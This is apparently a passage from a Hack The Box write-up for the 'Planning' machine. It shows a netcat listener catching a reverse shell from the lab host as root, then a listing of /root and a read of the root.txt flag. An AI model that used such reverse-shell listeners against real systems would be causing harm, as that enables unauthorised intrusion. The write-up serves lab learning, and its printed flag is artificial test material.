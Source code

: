 <img src="assets/HTB/Planning/image8.png" alt="Error loading image"/>

We set up a listener, clicked Run now, and obtained a root shell.


```
┌──(kali㉿kali)-[~/htb-machine/planning]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.97] from (UNKNOWN) [10.10.11.68] 41836
bash: cannot set terminal process group (9573): Inappropriate ioctl for device
bash: no job control in this shell
root@planning:/# cd /root
cd /root
root@planning:~# ls -la
ls -la
total 40
drwx------  6 root root 4096 Sep 11 04:02 .
drwxr-xr-x 22 root root 4096 Apr  3 14:40 ..
lrwxrwxrwx  1 root root    9 Feb 28  2025 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr 22  2024 .bashrc
drwx------  2 root root 4096 Apr  1 11:08 .cache
-rw-------  1 root root   20 Apr  3 15:18 .lesshst
drwxr-xr-x  4 root root 4096 Feb 28  2025 .npm
-rw-r--r--  1 root root  161 Apr 22  2024 .profile
-rw-r-----  1 root root   33 Sep 11 04:02 root.txt
drwxr-xr-x  2 root root 4096 Apr  3 12:54 scripts
drwx------  2 root root 4096 Feb 28  2025 .ssh
root@planning:~# cat root.txt
cat root.txt
968ec0c01f5264aa6fc59a6adb03ce70
```